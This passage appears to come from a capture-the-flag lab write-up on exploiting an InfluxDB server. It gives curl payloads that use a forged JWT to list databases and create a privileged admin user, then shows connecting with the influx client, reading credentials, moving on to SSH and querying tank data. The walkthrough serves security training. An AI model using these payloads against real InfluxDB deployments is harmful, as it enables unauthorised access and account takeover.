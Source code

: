      ```bash
     curl -G "http://10.10.187.112:8086/query?db=demodb" \
     --data-urlencode "q=SHOW DATABASES" \
     --header "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3NTQzNjY4fQ.TD8pdKpmXTL7fXYuVUWmbqy3GXDESNaR02Apqf_Y1vk"
     ```

- payload 2 (create user)
  
     ```bash
     curl -X POST -G "http://10.10.187.112:8086/query?db=demodb" \
     --data-urlencode "q=CREATE USER admin WITH PASSWORD 'thm@anir0y' WITH ALL PRIVILEGES" \
     --header "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3NTQzNjY4fQ.TD8pdKpmXTL7fXYuVUWmbqy3GXDESNaR02Apqf_Y1vk"
     ```

- downlaod & config influxdb-client

     ```bash
     sudo apt install influxdb-client
     ```

- connect with remote db
  
  ![img](https://i.imgur.com/blVEP3P.png)

- read the creds.
  
  ![img](https://i.imgur.com/uSw7QvY.png)

- ssh into box with creds
  
  ![img](https://i.imgur.com/xiJRGU5.png)

### 3.2: What was the temperature of the water tank at 1621346400 (UTC Unix Timestamp)?

- connect to DB
  `influx -host 10.10.234.201 -port 8086 -username admin -password 'thm@anir0y'`

- check the data
  
  ```bash
  # stage 1: connect to db
  influx -host 10.10.234.201 -port 8086 -username admin -password 'thm@anir0y'
  Connected to http://10.10.234.201:8086 version 1.3.0
  InfluxDB shell version: 1.6.7~rc0

  # Find DB
  > show databases;
  name: databases
  name
  ----
  ...
  mixer
  ...

  # use db
  > use tanks;
  Using database tanks

  # Find Tables
  > show measurements
  name: measurements
  name
  ----
  ...
  water_tank
  ```